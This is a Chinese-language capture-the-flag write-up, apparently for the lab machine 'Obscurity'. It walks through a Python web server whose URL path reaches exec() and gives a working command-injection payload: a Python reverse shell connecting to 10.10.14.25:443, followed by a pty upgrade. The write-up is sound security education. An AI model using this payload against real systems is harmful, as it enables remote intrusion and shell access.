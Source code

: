 ```python
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "r") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
        except Exception as e:
            print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}
```

打开着这个文件发现python编写的后端文件，使用sokcet接受数据，分析url中的文件路径如果存在就显示该文件，发现一个exec()函数存在漏洞。

![image-20200924025635423]({{ site.url }}/assets/Obscurity_168.assets/image-20200924025635423.png)

经常做代码审计的应该很快就会发现问题。

path是url

而url在用字符串的一部分并没有被处理，而是直接做exec中执行。这样的处理会非常容易导致rce，远程执行代码。

在url中利用命令注入的方法，在url后附加命令。

这时就可以执行Python的reverse  shell，payload：

```python
http://10.10.10.168:8080/payload';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.25',443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);'
```

本地建立监听，浏览器执行，得到shell

![image-20200924030625493]({{ site.url }}/assets/Obscurity_168.assets/image-20200924030625493.png)

`which python`和`which python3`判断是否有python，靶机没有python2，只有python3，使用`python3 -c "import pty;pty.spawn('/bin/bash')"`利用python获得一个pty。
